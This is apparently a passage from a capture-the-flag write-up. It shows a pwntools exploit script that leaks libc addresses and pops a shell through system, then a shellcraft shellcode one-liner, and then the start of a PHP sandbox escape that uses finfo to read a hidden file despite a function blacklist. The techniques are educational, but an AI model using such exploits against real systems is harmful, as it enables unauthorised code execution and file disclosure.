 ```py
payload += asm("push 0x400741")
payload += asm("ret")

print len(payload)
pause()

p.sendline(payload)

p.recvuntil("10 bytes:\n")
puts_libc = u64(p.recv(8))
mmap_libc = u64(p.recv(8))

log.info("puts@libc: " + hex(puts_libc))
log.info("mmap@libc: " + hex(mmap_libc))

libc_base = puts_libc - libc.symbols["puts"]
log.info("libc base: " + hex(libc_base))

log.info("Payload 5: one_gadget")
one_gadget = libc_base + 0x4f322 # 0x47c46
log.info("one_gadget: " + hex(one_gadget))

payload = ""
payload += asm("mov rax, " + hex(libc_base + libc.symbols["system"]))
payload += asm("push rax")
payload += asm("mov rdi, " + hex(libc_base + 0x1b3e9a))
payload += asm("ret")

pause()
p.sendline(payload)

p.interactive()
```

Or I could have just done,

```py
p.sendline('a' * 18 + asm(shellcraft.amd64.linux.sh(), arch='amd64'))
```

## Web
### PHP Sandbox
In this challenge we are given a PHP site that allows us to run code. But not any code, some are being filted.

First we can try listing the files in this directory, to see what we can work with.

```php
vardump(scandir("."));
```

One of the files is called `.sup3rs3cr3tf1l3.php`. Suspicious. Immediate thought is to read it. However, functions like `fopen`, `highlight_source`, `readfile` were being blacklisted. After some more digging, turns out there's this [`finfo`](http://php.net/manual/en/class.finfo.php), which constructor seems to try to read from a file to initialize the object.
